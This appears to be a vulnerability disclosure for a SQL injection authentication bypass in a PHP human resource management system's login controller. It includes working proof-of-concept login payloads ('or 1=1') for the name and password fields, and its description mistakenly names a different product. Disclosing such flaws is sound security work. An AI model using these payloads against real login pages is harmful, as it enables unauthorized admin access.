





# CVE Report

SourceCodester Human Resource Management System 1.0 /controller/login.php sql injection

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. Authentication Bypass using SQL Injection on Login Page

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /controller/login.php

# Source code analysis

At index.php file, users login with username and passwd to controller/login.php in submit option.

In login.php, Username and Password will be added to sql query command without validation.

# Proof of Concept

Payload in name: `name='+or+1=1%23&password=''&submit=Sign+In`

Access to Admin Page successfully.

Payload in password: `name=''&password='+or+1=1%23&submit=Sign+In`

